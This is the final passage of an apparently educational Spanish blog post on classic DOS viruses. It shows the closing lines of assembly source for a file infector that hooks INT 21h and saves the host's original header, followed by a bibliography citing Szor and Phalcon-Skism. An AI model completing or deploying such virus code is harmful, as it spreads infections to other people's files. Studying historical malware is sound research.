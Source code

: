     pop cx  
    pop bx  
    pop ax  
    popf

handler_old:     
    db 0EAh                                          ; JMP FAR  
    
vector_int21    dw   ?, ?                            ; vector original de INT 21h (4 bytes)
host_head       db   90h, 90h, 90h, 90h              ; buffer para cabezal original  
VIRUS_SIZE      equ  ($ - body)                      ; tamaño del virus  
file_size       dw   ?                               ; buffer temporal para tamaño del huésped  
tmp_head        db   4 dup (?)                       ; buffer temporal para cabezal viral

virus ends  
end start  
{% endhighlight %}

## Bibliografía
{% bibliography -q
   @*[key=Szor2005,
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 